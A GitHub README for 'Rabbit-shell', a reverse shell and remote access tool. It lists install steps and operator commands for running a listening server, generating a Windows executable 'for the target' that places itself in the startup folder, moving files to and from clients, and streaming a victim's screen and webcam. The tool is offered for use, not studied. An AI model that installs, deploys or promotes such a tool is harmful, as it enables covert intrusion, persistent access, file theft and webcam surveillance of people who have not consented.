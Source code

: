 # Rabbit-shell

###### Rabbit shell reverse shell tool.



##  Installation.



### By pip.

```bash
pip install rabbit_shell
```
install using pypi.

or
###  By clone.

```bash
git clone https://github.com/greedalbadi/rabbit-shell.git
cd rabbit-shell
pip install .
```
install using git clone.

# Usage.
```bash
rsb --help
```
print available arguments with a tiny explain or just rsb.

## Run server and start listening.

```bash
rsb --server -a 192.168.0.111 -p 9999
```

> - --server is args container
> - -a is server or device ip address
> - -p is wich port you'll be listening to

###### There'll be a seperate socket for file transfering the port is whaever enter - 1, If main server port 9999

###### file transfer port well be 9998, the files are going to trans to wherever your location is.





## Log to server as author.

```bash
rsb --auth -a 192.168.0.111 -p 9999
```

> - --auth is args container
> - -a is server or device ip address
> - -p is wich port you'll be listening to server and contacts
> - -k (optional) use key

###### connect to your server as an author and control your own clients.



## Generate exe for the target.

```bash
rsb --client -a 192.168.0.111 -p 9999
```

> - --client is args container
> - -a is server or device ip address
> - -p is wich port you'll be listening to


###### This will generate an exe inside a dist directory you may delete build folder, when the exe runs It'll create

###### a shortcut in startup folder if the system is windows.



## Generate new key.

```bash
rsb --key
```

###### generate a new key and save it in data\basic.py.



## To insert key.

```bash
rsb --key -k your_key
```

> - -k is the key you want to insert to the tool files.

## Commands to use from server side.



### To request server information.

```bash
>: server
```

###### Server host and port also the tool version and tool name.

### To list all clients.

```bash
>: list
```

###### List online and offline clients use, device address, and more.

### To set and controll a client console by client use number from the list.

```
>: set 0
```

###### To controle client console you can git client set number from using the command list

###### and use the command >: set (client use number).

### Quit client session.

```bash
>: quit
```

###### Quit client console without losing connection with client, used to things like changing to another set or gain info.

### Send file to client.

```bash
>: file:filename
```

###### 

### Request file from client.

```bash
reqfile:filename
```





# stream



##### streaming will be done by wich client is sending frames to the server

##### so make sure that it's one client whom send's stream frames and stop other streams to be safe, after you'r done with the stream stop it using `>: stream:stop` .

### stream current client screen.

```bash
>: stream:screen
```



### stream current client webcam.

```bash
>: stream:cam
```



### stop stream

```bash
>: stream:stop
```

###### make sure you stop the stream when you want to start streaming another client.







## About.

by [@greedalbadi](https://www.instagram.com/greedalbadi/)

This tool uses MIT license.

made with depression <3
